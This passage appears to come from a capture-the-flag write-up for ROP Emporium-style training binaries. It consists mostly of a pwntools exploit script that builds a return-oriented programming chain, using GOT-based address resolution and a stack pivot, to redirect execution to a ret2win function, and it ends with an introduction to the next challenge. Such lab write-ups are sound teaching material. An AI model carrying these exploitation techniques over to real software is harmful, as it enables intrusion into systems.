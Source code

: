 ```Python
stack_smash += back_junk

################ create the payload ####################
#Fill up the buffer and the base pointer

# call the foothold function
payload = p64(0x00400720)

# pop rax off with the value of the location of the got for the foothold func
payload += p64(0x04009bb)
payload += p64(0x601040)

# mov the value in the got into rax
payload += p64(0x4009c0)

# place the offset from foothold to ret2win in rbp
## pop rbp
payload += p64(0x004007c8)
## offset to place in it
payload += p64(0xa81-0x96a)

# add the offset to rax
payload += p64(0x04009c4)

# jump to rax
payload += p64(0x04007c1)

# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))
input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
print(io.clean(0.5).decode("utf-8"))
io.send(stack_smash)
io.send(payload)
input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))
sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```
## Challenge 8

And we've reached the end of the road with these challenges and have just one more to do. The task is pretty simple, like before there is a ret2win function in the attached library and we have to call it with specific arguments, `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)` to be exact. 
